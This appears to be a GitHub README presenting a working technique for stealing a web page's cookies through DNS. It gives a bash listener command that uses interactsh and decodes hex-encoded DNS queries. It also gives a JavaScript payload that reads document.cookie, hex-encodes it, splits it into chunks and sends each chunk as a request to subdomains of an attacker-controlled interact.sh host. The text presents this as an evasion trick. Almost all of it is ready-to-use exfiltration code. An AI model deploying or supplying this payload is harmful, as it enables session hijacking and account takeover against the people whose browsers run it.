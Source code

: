 ## Reciever

The following payload will set up a DNS listener (using interactsh by project discovery) and sequentially handle the output to transform the DNS queries containing fragments of cookies (that will be sent by the attacker payload) into readable ASCII characters.

> Note: The dns queries will obey the following pattern: hexacode.yourdomain

#### bash Command

```
interactsh-client | tee -a saida  | tr -d '[]' | cut -f1 -d ' ' | xargs -I@ bash -c 'echo @ | xxd -r -p'
```

## Payload attacker
The payload below will convert all cookies present on the current page into multiple requests (using fetch function from JS), attempting to call your malicious server, which will be listening for DNS queries. 
The trickest and coolest part here is that, if for some reason, the client-side block the GET request from the client-side to be made, with this payload the browser probably has already started a DNS lookup to check if the host provided is alive to be fetched. Then, we can exploit this behavior to gain some advantages. 

#### JS Command

```
t=40;dm='cb364rdve0qv08pghjmgcmdgr5eyyyyyn.interact.sh';k2="-None";d=document;c=d.cookie;function v(dm, d, c){m="";for(var x in c){k=Math.random().toString(36).substring(7);m=m.concat(c.charCodeAt(x).toString(16).padStart(2,0))};iter=[];p=0;x=0;it=(m.length/t);for(i=[];i.length<=it;){i.push(1);iter.push(m.slice(iter.length*t,i.length*t));};for(var o in iter){danger='https://fma6mqp.1wxyg8.sdrv2.fcnoh2'.replace('fma6mqp',iter[o]).replace('1wxyg8',o).replace('sdrv2',k.concat(k2)).replace('fcnoh2',dm);var xhttp = new XMLHttpRequest();xhttp.open("GET", danger);xhttp.send();};};v(dm,d,c)
```

#### Thanks

https://github.com/gum0x/rascal (that JS payload was inspired (~copied~) from here. I've only made some changes)
